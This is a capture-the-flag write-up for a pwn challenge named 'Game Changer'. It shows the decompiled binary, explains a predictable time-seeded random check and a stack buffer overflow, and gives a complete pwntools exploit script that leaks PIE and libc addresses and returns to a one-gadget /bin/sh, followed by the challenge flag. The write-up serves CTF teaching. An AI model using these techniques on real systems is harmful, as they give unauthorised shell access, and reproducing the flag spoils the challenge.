





## Game Changer 🩸

```
Author: itoid

Are you a Game Changer?

nc ctf.tcp1p.com 9254
```
**Attachment**: [gamechanger](release/gamechanger)

We were given a ELF binary called gamechanger. Here's some information about the binary.

  

<details close><summary>Decompiled Binary</summary>
    
```c
int init()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}

__int64 randomize()
{
  unsigned int v0; // eax

  v0 = time(0LL);
  srand(v0);
  return (unsigned int)((rand() + 34) % 23);
}

__int64 game()
{
  char s[20]; // [rsp+0h] [rbp-20h] BYREF
  int v2; // [rsp+14h] [rbp-Ch]
  unsigned int v3; // [rsp+18h] [rbp-8h]
  unsigned int v4; // [rsp+1Ch] [rbp-4h]

  v4 = 0;
  v3 = randomize();
  puts("Let's play a game, try to guess a number between 1 and 100");
  fgets(s, 16, stdin);
  v2 = atoi(s);
  if ( !v2 )
  {
    puts("That's not a number");
    exit(0);
  }
  if ( v2 == v3 )
  {
    return 1;
  }
  else if ( v2 >= (int)v3 )
  {
    printf("Nope");
  }
  else
  {
    printf("Nope, the number i'm thinking is %d\n", v3);
  }
  return v4;
}

int ask()
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  puts("Congrats, you guessed it correctly. What do you want to do this morning?");
  read(0, buf, 0x122uLL);
  if ( strlen(buf) <= 0x7F )
  {
    puts("Oh, are you an introverted person?");
    exit(0);
  }
  return printf("Oh, you want to %s...\nWow, you're a very active person!\n", buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  int v5; // [rsp+8h] [rbp-8h]
  unsigned int v6; // [rsp+Ch] [rbp-4h]

  init();
  printf("Do you want to play a game? (1: Yes, 0: No): ");
  while ( (unsigned int)__isoc99_scanf("%d", &v4) != 1 || v4 && v4 != 1 )
  {
    while ( getchar() != 10 )
      ;
    printf("Invalid choice. Please enter 1 or 0: ");
  }
  while ( getchar() != 10 )
    ;
  if ( v4 )
  {
    if ( v4 == 1 )
    {
      v6 = 1;
      v5 = 0;
      while ( (int)v6 <= 5 && !v5 )
      {
        printf("Attempt %d:\n", v6);
        v5 = game();
        ++v6;
      }
      if ( v5 )
        ask();
      else
        puts("You couldn't guess the number. Better luck next time!");
    }
  }
  else
  {
    puts("Okay, maybe another time!");
  }
  return 0;
}
```
    
</details>

When the program is running, it will loop and call the `game()` function when the user enters the number 1. In the `game()` function, the user will be prompted to enter a number. If the number entered by the user is the same as the result of calling the `randomize()` function, the program will return to the `main()` function with a value of 1 (True).

In the `randomize()` function, the program will call `srand()` to set the randomization seed for the `rand()` function using the current time as an integer seed. This can be exploited to obtain the same random number as the result of calling the `randomize()` function.

Now let's take a look at the `ask()` function which will be called if the `game()` function return 1.  

```c
int ask()
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  puts("Congrats, you guessed it correctly. What do you want to do this morning?");
  read(0, buf, 290uLL);
  if ( strlen(buf) <= 0x7F )
  {
    puts("Oh, are you an introverted person?");
    exit(0);
  }
  return printf("Oh, you want to %s...\nWow, you're a very active person!\n", buf);
}
```

The program will ask the user to input data with a maximum of 296 bytes, which will be stored in the variable `buf`. This creates a Buffer Overflow vulnerability because the `buf` variable can only hold up to 256 bytes of data. This can be leveraged to perform a Return-Oriented Programming (ROP) attack. However, due to the presence of Position-Independent Executable (PIE) mitigation in the provided binary, we cannot directly jump to the desired function. In this case, I decided to perform a brute force with a probability of 1/16 by overwriting the last 2 bytes (3 known nibbles and 1 unknown nibble) of the SAVED RIP on the stack with the address of the `main()` function. This is done with the aim of determining a valid address by observing if the program displays the output from the "main()" function.

Additionally, there is a vulnerability in the "ask()" function that can be exploited to leak an address.
```c
  return printf("Oh, you want to %s...\nWow, you're a very active person!\n", buf);
```
This vulnerability arises because the user's input received using the read() function is not terminating the user input using null byte. Therefore, if a user enters specific data, it possible the program to potentially display addresses and values stored in the stack. To clarify further, please refer to the image below.

  
  

When I tried to debug, I noticed that at the end of the `ask()` function the $RDI register was pointing to the stack address that contained the libc address of the `funlockfile()` function. 
  
Then, I had the idea to perform a libc address leak by calling the `printf()` function and testing it on the REMOTE server, which turned out to be successful. From there, I assumed that the server was running on Ubuntu 22.04 (GLIBC version 2.35). Honestly, I felt lucky because I was using Ubuntu 22.04, which has GLIBC version 2.35 xD.

After performing the leak, the payload I used is to return to the `ask()` function to perform ROP. Here, I decided to use a one-gadget because there is a suitable constraint to use after calling the `ask()` function:
```
0xefcf5 execve("/bin/sh", r10, rdx)
constraints:
address rbp-0x78 is writable
[r10] == NULL || r10 == NULL
[rdx] == NULL || rdx == NULL
```

Here's my exploit to solve this challenge:
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys
import time
from ctypes import CDLL

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/gamechanger" # patched the libc with libc6_2.35-0ubuntu1_amd64.so
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 9254
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
	arch=["i386", "amd64", "aarch64"][1],
	endian="little",
	os="linux",
	log_level = ['debug', 'info', 'warn'][2],
	terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def win_game():
	cdll.srand(int(time.time()))
	correct_answer = (cdll.rand() + 34) % 23
	io.sendlineafter(b"100\n", str(correct_answer).encode())
	sleep(0.01)

def exploit(io, libc=null, cdll=null):
	if LOCAL==True:
		#raw_input("Fire GDB!")
		if len(sys.argv) > 1 and sys.argv[1] == "d":
			choosen_gdb = [
				"source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
				"source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
				"source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
				][0]
			cmd = choosen_gdb + """
			b *ask+0x66
			c
			"""
			gdb.attach(io, gdbscript=cmd)
	io.sendlineafter(b" game? (1: Yes, 0: No):", b"1", timeout=2)
	win_game()

	# === Overflow jump to main+1
	p = b""
	p = b"A"*(0x108-1)+b"|"
	p += p16(0xe3e2+1) # ?3e2+1 == ? unknown 
	io.sendafter(b"What do you want to do this morning?\n", p, timeout=2)
	sleep(0.01)
	io.recvuntil(b"|")
	LEAKED_ELF = u64(io.recv(6, timeout=2).ljust(8, b"\x00"))
	elf.address = LEAKED_ELF - elf.symbols["main"] - 1
	print("LEAKED_ELF               :", hex(LEAKED_ELF))
	print("elf.address              :", hex(elf.address))

	io.recvuntil(b"game? ", timeout=2)
	io.sendlineafter(b"(1: Yes, 0: No):", b"1")
	sleep(0.01)
	win_game()

    # === Leak LIBC Address using printf($RDI)
    # === and jump back to the ask() function
	p = b""
	p = b"A"*(0x108-1)+b"|"
	p += p64(elf.search(asm('ret')).__next__())
	p += p64(elf.symbols["printf"])
	p += p64(elf.symbols["ask"]+1)
	io.sendafter(b"What do you want to do this morning?\n", p)
	sleep(0.01)
	io.recvuntil(b"|")
	io.recvuntil(b"person!\n", timeout=2)
	

	LEAKED_LIBC = u64(io.recv(6).ljust(8, b"\x00"))
	libc.address = LEAKED_LIBC - libc.symbols["funlockfile"]
	print("LEAKED_LIBC              :", hex(LEAKED_LIBC))
	print("libc.address             :", hex(libc.address))

	"""
	0xefcf5 execve("/bin/sh", r10, rdx)
	constraints:
	address rbp-0x78 is writable
	[r10] == NULL || r10 == NULL
	[rdx] == NULL || rdx == NULL
	"""

	p = b""
	p = p.ljust(0x108-8, b"A")
	p += p64(elf.bss(0x200)) # writeable memory area
	p += p64(libc.address+0xefcf5) # jump to One gadget
	io.sendafter(b"What do you want to do this morning?\n", p)
	sleep(0.01)

	io.interactive()

if __name__ == "__main__":
	io, libc = null, null
	if args.REMOTE:
		REMOTE = True
	else:
		LOCAL = True
	libc = ELF("libc6_2.35-0ubuntu1_amd64.so")
	cdll = CDLL("/lib/x86_64-linux-gnu/libc.so.6")

	while True:
		try:
			if REMOTE == True:
				io = remote(HOST, PORT)
				
			else:
				io = process(
					[TARGET, ],
					env={
					#     "LD_PRELOAD":DIR+"/___",
					#     "LD_LIBRARY_PATH":DIR+"/___",
					},
				)
			elf.address = 0
			exploit(io, libc, cdll)
		except Exception as e:
			print(e)
			pass
``` 
</details>

  

    
**Flag:** TCP1P{w0w_1ve_n3v3r_533n_5uch_4_900d_g4m3_ch4n93r_29c19ff69c5760fee1db8cac282a7b073bec936f}